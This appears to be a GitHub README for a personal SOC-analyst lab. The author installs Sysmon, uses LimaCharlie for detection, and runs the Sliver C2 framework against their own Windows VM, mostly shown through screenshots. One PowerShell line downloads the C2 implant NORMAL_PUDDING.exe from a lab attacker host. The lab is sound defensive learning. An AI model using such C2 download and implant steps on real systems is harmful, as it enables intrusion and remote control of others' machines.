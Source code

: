 # SOC-Analyst

## Set up VMs environment
- I set up 2 VMs, one is Ubuntu Server 22.04, the other is Windows 10 Desktop
- After setting up completely, I install sysmon in Windows 10 VM by this following Powershell script steps
1. Download Sysmon
```powershell
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
2. Unzip Sysmon.zip
```powershell
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
## Start to attack
- I use LimaCharlie (a SecOps cloud platform)
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/bdce3c63-38eb-42a6-81f6-626cfc5138e1)
- Follow these steps, and I reach this. It successfully creates the sensor
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/a9985c93-978d-4c3a-83d8-5d23d9e3f49b)
- Add rules to LimaCharlie
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/c60a1a58-90f5-49e8-9fc8-57e6c32b2feb)
- Use Sliver to perform Command and Control 
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/ed2188db-ed14-4deb-ba1e-04fbe77b4733)
- Download Command and Control file to Windows by this command
```powershell
IWR -Uri http://192.168.159.100/NORMAL_PUDDING.exe -Outfile C:\Users\hoang\Downloads\NORMAL_PUDDING.exe
```
- After running C2 on Windows VM, on Ubuntu Server, I see this
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/33fc3013-56ff-4faf-8156-b509c7033f27)
- Perform RCE
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/6335a1a3-c0a5-4ee5-aa38-a7144931a26d)

## Observe and analyse 
- As we can see here, the C2 payload is malicious processes, so they are not signed and they are active on network
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/f34352b8-d9c6-4f33-a0d8-13837a7796bf)
- In the network tab, we can see the C2 payload NORMAL_PUDDING is established
![image](https://github.com/buiduchoang24/SOC-Analyst/assets/166605385/e07f3d9a-3a6d-4aa1-aa01-064be6df2920)










